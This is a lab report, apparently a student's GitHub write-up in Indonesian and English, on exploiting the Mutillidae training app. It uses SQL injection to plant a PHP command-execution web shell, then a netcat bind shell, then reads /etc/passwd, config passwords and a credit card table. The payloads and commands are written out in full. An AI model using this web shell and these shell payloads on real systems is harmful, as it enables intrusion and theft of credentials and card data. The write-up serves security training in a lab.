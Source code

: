 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan 
```
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/union.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/result_union_2.png "Home page")

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/whoami.png "Home page")
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/w.png "Home page")
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_passwd.png "Home page")
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   netstat -nao | grep "0.0.0.0:"
```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/netstat.png "Home page")

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   	find * -name "*.php" | xargs grep -i "password" | grep "="
```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/find.png "Home page")
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox
```
   cat config.inc | grep -v "<?php"
```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_config.png "Home page")

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
```
   which nc; netstat -nao | grep 4444 | wc -l
 ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/which_nc.png "Home page")
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
```
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/mkfifo.png "Home page")
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Buka koneksi ke mutillidae menggunakan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_nc.png "Home page")
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
```
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_data.png "Home page")

## Note
- Agar file **execute_command.php** dapat dibuat pada metasploit, pastikan anda sudah menonaktifkan apparmor
- Konfigurasi untuk menonaktifkan AppArmor ada [disini](https://github.com/luqmanahmads/laporan-pksj/blob/master/Laporan_Tugas_Final/konfigurasi_apparmor.md)